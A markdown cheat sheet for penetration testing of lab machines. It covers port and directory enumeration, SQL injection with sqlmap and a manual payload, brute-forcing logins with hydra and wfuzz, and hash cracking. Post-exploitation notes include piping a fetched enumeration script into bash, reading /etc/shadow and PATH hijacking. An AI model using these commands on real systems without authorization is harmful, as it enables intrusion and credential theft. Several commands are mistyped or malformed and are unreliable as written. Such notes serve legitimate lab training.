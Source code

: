 # Enumeration Phase

#### Nmap Enumeration

- I used the machine name as wr3nch and ist ip as 10.10.10.10 just for example


```bash
# normal nmap scan enumerates only open ports
nmap -Pn -vv -sC -sV -oN wr3nch.nmap 10.10.10.10
# nmap full ports scan TCP
nmap -p- -vv -sC -sV -oN wr3nch.nmap 10.10.10.10
# nmap UDP scan
nmap -sU -p- -oN wr3nch.nmap 10.10.10.10
# namp query shown by htb for port enumeratuion
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.10 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV -oN wr3nch.nmap 10.10.10.10
```

#### Directory Enumeration


- wordlist = `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

###### Gobuster

```bash
# directory listing mode
gobuster dir -u http://10.10.10.10 -w wordlist  -x php,html,txt,xml -o gobuster-out.txt
# enumerates virtual hosts
gobuster vhost -u http://10.10.10.10 -w wordlist -o vhost.txt
# if proxy needed
add `-p <proxy address>` in the dir mode and vhost mode
```


###### Wfuzz

```bash
# directory enumeration
wfuzz -u http://10.10.10.10/FUZZ -c -v -u http://10.10.10.10 -w wordlist --hc 404
# vhost enumeration
wfuzz -H 'HEAD: FUZZ.htb' -w wordlist -u http://10.10.10.10 --hw 0
# make a login attack (post request)
wfuzz -c -v -z file,wordlist -z file,wordlist -d "username=FUZZ&password=FUZ2Z" --hs incorrect --hs invalid http://10.10.10.10/login.php
# if proxy needed
add `-p <proxy address>` in the dir mode and vhost mode
```

#### Sql Injection

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch
# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

#### Curl and Wget

- Utilities present for making request and obtaining files

```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10
# obtain only the response header
curl --head http://10.10.10.10.
# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"
# curl save the output
curl http://10.10.10.10 -o index.html
# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

```bash
# download files with wget
wget http://10.10.10.10/xxx.sh
# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

# BruteForcing Things

#### Login BruteForce

- Hydra, login page is found at `http://10.10.10.10/login.php`

```bash
# syntax
# hydra -L userslist -P passwordslist <url> http-post-form login_page:request_body:error_message
hydra -L usernames.txt -P passwords.txt 10.10.10.10 http-post-form "/login.php:username:^USER^&password=^PASS^&Login=Login:Login Failed"
# login_page = /login.php
# request_body = username:^USER^&password=^PASS^&Login=Login
# error_message = Login Failed
```

#### Cracking files/hashes

##### Zip files with john

```bash
zip2john \<zipfile\> \> zipfile.hash
john  --format=zip zipfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

##### Cracking Hashes 

```bash
john \<hashes_file \> --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -m \<Cracking mode\> \<hashes_file\> /usr/share/wordlists/rockyou.txt
```

# Post Exploitation

#### Find Files that contains specific sting in it

```bash
grep -iRl "I am a search string" ./
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### File Transfer

> LINK AREA

#### Post Exploitation Commands:

| Description | Unix | CMD | Powershell |
| -- | -- | -- | -- |
| User Logged in | whoami | echo %username% | $env:username|
| | | | [System.Security.Principal.WindowsIdentity]::GetCurrent().Name |
| Change Directory | cd \<path\> | cd \<path\> | Set-Location \<path\> |
| Lis the directory | ls | dir | Get-ChildItem |
| View file contents | cat \<file\> | type \<file\> | Get-Content \<file\> |
| Move files | mv \<file.org\> \<file.mov\> | move \<file.org\> \<file.mov\> | Move-Item \<file.org\> \<file.mov\> |
| Clear Screen | clear | cls | Clear-Host |
| Copy files | cp \<file.org\> \<file.cpy\> | copy \<file.org\> \<file.cpy\> | Copy-Item \<file.org\> \<file.cpy\> | 
| Delete files | rm \<file\> | del \<file\> | Remove-Item \<file\>|
| Web Requests | curl \<url\> | | Invoke-WebRequest \<url\> |
| Supress Error messages | cd /Windows32/System 2>/dev/null | cat /etc/shadow 2>nul | Get-Content /etc/passwd -ErrorAction SilentlyContinue |

#### Network monitoring:

```bash
# network modules info and IPs
ifconfig
ipaddr
# shows the tcp connection
netstat -antp     
ss -antp  
#netstat -ano ; 0.0.0.0:445 = implies, SMB service is running within the machine and not open for others
#so it is best to perform port forwading and checking those services locally
# windows
netstat -antp 
ipconfig        
```

# Misc

#### Shell tty arrangements

```bash
# tty settings in local machine 
stty -a 
# change rows and columns in reverse shell
ssty columns 136 rows 32
```

#### Export path for path hijacking

```bash
export PATH=/tmp:$PATH
```
